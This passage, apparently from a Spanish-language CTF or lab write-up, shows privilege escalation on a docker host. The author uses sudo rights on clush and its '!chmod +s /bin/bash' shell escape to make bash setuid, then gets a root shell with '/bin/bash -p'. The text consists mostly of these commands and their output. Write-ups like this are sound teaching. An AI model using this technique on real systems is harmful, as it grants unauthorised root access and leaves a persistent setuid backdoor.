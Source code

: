 Vemos **clush** con permisos SUDO  :
Primero accedemos al nodo/s :

```bash

sudo clush -w node[11]

```

- **`-w`**: Especifica los nodos donde ejecutar el comando(en este caso da igual iremos al mismo al estar en un docker).

Luego ejecutamos comando :

```bash

!chmod +s /bin/bash

```

Salimos y ejecutamos:

```bash
┌─[maci@79f4564391f7]─[/etc/clustershell/groups.d]
└──╼ $/bin/bash -p
bash-5.2# whoami 
root
bash-5.2# 
```

**YA ESTAMOS COMO ROOT.**